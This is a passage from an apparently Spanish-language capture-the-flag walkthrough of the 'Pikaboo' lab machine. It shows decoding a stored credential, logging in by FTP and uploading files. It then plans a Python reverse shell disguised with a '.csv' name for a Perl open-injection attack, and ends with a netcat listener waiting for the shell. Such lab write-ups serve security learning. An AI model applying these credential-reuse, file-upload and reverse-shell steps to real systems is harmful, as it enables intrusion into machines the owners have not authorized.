 ```bash
www-data@pikaboo:/opt/pokeapi/config$ echo "X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==" | base64 -d; echo
_G0tT4_C4tcH_'3m_4lL!_
www-data@pikaboo:/opt/pokeapi/config$

```
Nos reportó unas credenciales, probemos si nos podemos conectar por ftp con el usuario "pwnmeow".

```bash

❯ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:void): pwnmeow
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Pudimos acceder por ftp, si listamos los archivo vamos a ver el mismo contenido que hay en "/srv/ftp/".

Intente subir un archivo pero no me dejó, entré al último directorio llamado "versions", y pude subir un archivo que habia creado llamado "hello.txt".
 
```bash

ftp> cd versions
250 Directory successfully changed.
ftp> put hello.txt
local: hello.txt remote: hello.txt
229 Entering Extended Passive Mode (|||37958|)
150 Ok to send data.
100% |***************************************************************************************************************************************************************|     5       73.98 KiB/s    00:00 ETA
226 Transfer complete.
5 bytes sent in 00:00 (0.00 KiB/s)
ftp> 

```
Recordando el posts sobre "perl open injection"	haremos lo siguiente:

Primero yo voy a usar un revshell en Python que termine usando la extensión ".cvs" y con put lo voy a subir al ftp, pero antes hay que ponerse en escucha por "NC".

---

Nos ponemos en escucha por nc.

```bash

❯ sudo nc -nlvp 443
[sudo] password for void: 
listening on [any] 443 ...



```
